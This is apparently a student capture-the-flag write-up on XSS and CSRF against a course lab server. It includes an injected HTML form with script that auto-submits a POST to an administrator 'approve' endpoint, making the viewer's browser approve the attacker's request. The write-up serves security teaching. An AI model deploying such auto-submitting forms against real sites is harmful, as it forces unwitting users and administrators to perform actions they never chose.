

# CTF WEEK 6 - XSS + CSRF

In the initial task, we encountered a web server located at ctf-fsi.fe.up.pt:5004. This server allowed us to submit requests to the administrator to obtain the flag.

Taking advantage of the ability to incorporate JavaScript, we attempted to leverage this feature. Employing the script below, we successfully obtained the flag for the initial challenge:



It took some time for the flag to become visible, but the purpose of this code is to retrieve the HTML element with the ID "giveflag" and simulate a click on it. The rationale behind this is that the element, upon being clicked, triggers a function that provides us with the flag.

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestId>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click()
    </script>
</form>
```
We changed the requestId to the id of the request present on the website.

Here is the flag:

